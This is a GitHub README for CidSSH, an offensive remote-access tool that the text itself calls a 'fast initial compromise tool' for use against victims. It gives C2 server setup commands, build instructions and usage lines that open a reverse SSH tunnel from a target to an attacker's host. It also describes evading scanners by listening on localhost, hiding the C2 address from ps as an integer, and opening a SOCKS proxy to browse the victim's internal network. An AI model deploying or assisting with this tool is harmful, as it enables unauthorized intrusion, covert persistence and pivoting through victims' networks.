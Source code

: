 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.

## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous
```

Allow blank passwords for SSH sessions for the `anonymous` user and restrict `anonymous` user to allow only reverse port forwarding:

```
sudo cat <<EOT >> /etc/ssh/sshd_config
PermitEmptyPasswords yes

Match User anonymous
   AllowTcpForwarding remote
   X11Forwarding no
   PermitTunnel no
   GatewayPorts no
   AllowAgentForwarding no
   AllowStreamLocalForwarding no
   ForceCommand echo 'This is a disabled account'
EOT
```

Restart sshd:
```sudo systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/RedRangerz/Cid-SSH/releases/tag/v1.0). They are ready to roll.

If you want to compile from source keep reading below.

### Compilation on Windows
You can use the `CMakeLists.txt` along with `CMake` to create a Visual Studio project.

To generate mentioned project, just make sure you set in `CMake` the proper include and library paths for:
- libssh 
- openssl

You can find both of them already statically prebuilt for Windows [here](https://github.com/illera88/PrecompiledLibraries/).

### Compilation on Linux
CidSSH is compiled statically for linux using musl (a replacement for libc) from an Alpine distribution `x86_64`. 
We have a dockerfile to do the compilation more easy `Dockerfile_linux_static`.
These are the steps to build and get the compiled binary from the container:
```
# Build the image, install dependencies and compile CidSSH
sudo docker build -t alpine_cid_ssh -f Dockerfile_linux_static .
# Copy the binary from the docker container to the current folder
sudo docker run -v `pwd`:/data_out -i -t alpine_cid_ssh:latest /bin/sh -c "cp /Cid-SSH/build/CidSSH /data_out/"
```

### Compilation on MacOs
Compile CidSSH:
```
cd ~/shared/SSHIUU/src/
mkdir build && cd build
git clone https://github.com/illera88/PrecompiledLibraries
cmake -DCMAKE_BUILD_TYPE=Release -DLIBSSH_STATIC_PATH=PrecompiledLibraries/macos/libssh_mod/ ..
make
```

## Using it

Defaults: user is `anonymous` and default `LOCAL_SSH_SERVER_PORT` is 2222

Syntaxis:

`Cid-SSH.exe [user@]C2_hostname [LOCAL_SSH_SERVER_PORT]`

Examples:
```
Cid-SSH.exe 192.168.15.135
Cid-SSH.exe user@192.168.15.135 1234
Cid-SSH.exe user@192.168.15.135
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
Page to do the conversion: http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp

In the C2:
```
sudo netstat -ptan | grep sshd | grep LISTEN | grep anon
# Get the port number, replace the XXXXX 
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p XXXXX -oStrictHostKeyChecking=no -D 0.0.0.0:8888
# Extra: One-liner for two previous commands:
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p `sudo netstat -ptan | grep sshd | grep LISTEN | grep anon | cut -d : -f2 | cut -d" " -f1` -oStrictHostKeyChecking=no -D 0.0.0.0:8888
```
